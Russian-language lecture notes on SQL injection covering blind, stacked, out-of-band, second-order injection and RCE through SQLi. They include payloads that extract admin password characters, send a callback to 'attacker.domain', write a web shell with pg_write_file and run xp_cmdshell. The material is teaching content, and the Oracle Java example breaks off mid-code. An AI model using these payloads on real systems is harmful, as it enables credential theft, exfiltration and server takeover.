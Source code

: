 ##### Пример Blind SQLi

GET /page?id=1==';SELECT CASE WHEN (username='admin' AND==
==SUBSTRING(password,1,1)='a') THEN 1/0 ELSE NULL END FROM users--== HTTP/1.1
Host: example.com

Код ответа 500 (деление на 0), если условие истинно, 200, если ложно

##### Stacked Queries
- Эксплуатация построенна на внедрении второго (произвольного) SQL-запроса после оригинального
- Позволяет встроить запрос другого типа (UPDATE после SELECT)
- Обычно результат второго запроса не будет возвращён
- Часто используется для RCE-векторов
- Можно использовать для Blind SQLi

##### Out-of-bound SQLi
- SQL запрос инициирует обращение по сети к подконтрольному серверу
- Можно использовать как blind-технику или извлекать данные напрямую
- Часто не будет работать в современных приложениях (почему? - потому что все современные приложения контейнезируют или проксируют)
- Если работает, то может спасти, когда time-based и прочие типы не работают

##### Пример Out-of-bound SQLi

GET /page?id=1==';SELECT 1337 INTO OUTFILE ‘\\\\attacker.domain\a’--== HTTP/1.1
Host: example.com
- Получаем отстук на свой домен

##### Second Order SQLi
- Инъекция в SQL запросе происходит не напрямую, а после того, как данные были уже внедрены заранее
- Иными словами, сначала нагрузка сохраняется где-то в БД одним запросом, а затем, последующими запросами вставляется в уязвимый SQL-запрос
- Тип эксплуатации самой нагрузки может быть любой из упомянутых ранее
- Сложнее автоматизировать
- Практически не детектируется сканерами

##### SQLi Cheatsheets
- [portswigger](https://portswigger...)
- [tib3rius](https://tib3rius.com/sqli)
![[Lect4. SQLi. Часть 1-1758574186608.jpeg]]

##### RCE в SQLi

Для каждой субд должны соблюдаться свои условия
- Если язык приложения php/jsp/подобные, то можно записать веб-шелл в файл на системе: 
	`'; SELECT pg_write_file('/var/www/html/shell.php', '<SHELL>', false);--`
- В MSSQL должен присутствовать xp_cmdshell и быть с соответствующими правами (или его альтернативы)
	`EXEC xp_cmdshell 'whoami';`
- СУБД Oracle можно создать и вызвать Java-процедуру
	```java
	CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "OSCommand" AS
	import java.lang.*;
	import java.io.*;
	

[^1]: ...поскольку данные передаются полностью отдельно от запроса, у этих данных нет никаких возможностей модифицировать запрос. Нет возможностей. _Вообще никаких_. (Экзотические атаки типа переполнения буфера здесь мы не рассматриваем — это совсем другой класс атак). Данные не нужно экранировать, преобразовывать или как-то менять; они идут в базу данных в точно том виде, в каком нужны нам. Если нам передали строку `Robert');drop table students;`, не надо заботиться об экранировании, надо просто передать ее как связываемую переменную — ничего она нам не сделает, а так и будет просто лежать в базе данных, как самая обычная строка.